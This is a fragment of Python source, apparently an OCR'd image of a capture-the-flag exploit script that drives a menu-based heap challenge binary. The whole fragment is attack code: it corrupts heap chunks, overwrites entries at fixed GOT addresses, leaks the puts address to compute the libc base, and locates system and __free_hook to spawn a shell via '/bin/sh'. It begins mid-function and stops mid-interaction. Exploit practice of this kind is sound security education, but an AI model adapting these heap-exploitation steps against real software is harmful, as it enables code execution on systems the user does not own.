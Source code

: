 ```python
    sl(str(idx))
    ru('choice :')

    

add('a'*0x10)
add('b'*0x10)
add('c'*0x10)
add('/bin/sh\0')
edit(0,'a')
delete(0)
sl('3')
ru('Give me your size : ')
sl('1')
ru('content')
se('\x60')
ru('choice :')

add(p64(0x602018))
edit(1,p64(0x400F52)[:7])
delete(3)

sl('3')
ru('Give me your size : ')
sl('8')
ru('content')
se(p64(0x400F52))
ru('choice :')

edit(0,p64(0x602020))
show(1)
data = ru('\n')[:-1]
ru('choice :')

sl('3')
ru('Give me your size : ')
sl('8')
ru('content')
se(p64(0x602022))
ru('choice :')

delete(3)

show(1)
data = data+(ru('\n')[:-1])
ru('choice :')


edit(0,p64(0x602024))
delete(3)
show(1)
data = data+(ru('\n')[:-1])
ru('choice :')

puts = u64(data+'\0\0')
base = puts - 0x6b990
free_hook = base+0x3a77c8
system = base +0x41490

delete(3)

sl('3')
ru('Give me your size : ')
```
